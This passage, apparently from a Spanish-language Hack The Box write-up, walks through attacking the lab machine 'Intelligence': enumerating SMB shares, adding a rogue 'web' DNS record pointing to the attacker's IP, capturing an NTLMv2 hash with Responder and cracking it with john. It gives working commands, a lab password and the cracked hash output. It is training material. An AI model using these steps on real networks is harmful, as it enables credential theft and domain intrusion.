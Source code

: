 - Nuestra usuaria no esta en ningun grupo  
- No hay Remote Mangement Users por lo que nadie se puede conectar por winrm  

```console
└─$ smbmap -H 10.10.10.248 -u "Tiffany.Molina" -p 'NewIntelligenceCorpUser9876'
	IT                                                	READ ONLY
	NETLOGON                                          	READ ONLY	Logon server share
	SYSVOL                                            	READ ONLY	Logon server share
	Users                                             	READ ONLY

# El sysvol no tiene el groups.xml a si que nada
└─$ smbmap -H 10.10.10.248 -u "Tiffany.Molina" -p 'NewIntelligenceCorpUser9876' -r IT
└─$ smbmap -H 10.10.10.248 -u "Tiffany.Molina" -p 'NewIntelligenceCorpUser9876' -d IT/downdetector.ps1
```
-------------------------------
## Part 4: Creación de un registro DNS 

El script es algo asi como: 
```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try { $request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
} } catch {} }
```
De todos los DNS records se queda con los que empiecen por "web" y hace una peticion a ellos. 
Hay que crear un DNS malicioso que empiece por web y que se autentique a él para robar las creds: 
Se crea con este [script](https://raw.githubusercontent.com/dirkjanm/krbrelayx/master/dnstool.py) 

```console
└─$ python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webcucuxii -a add -t A -d 10.10.14.12 10.10.10.248
[-] Adding new record
[+] LDAP operation completed successfully
└─$ sudo python3 /usr/share/responder/Responder.py -I tun0
[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:3da0067bbcb69d07:63D3B7685DC7A676841D0D9075A7EE71:010100000...
```
Copie dichas creds y las rompí con el jhon
```console
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Mr.Teddy         (Ted.Graves)
```
-------------------------------
## Part 5: Escalando privilegios 
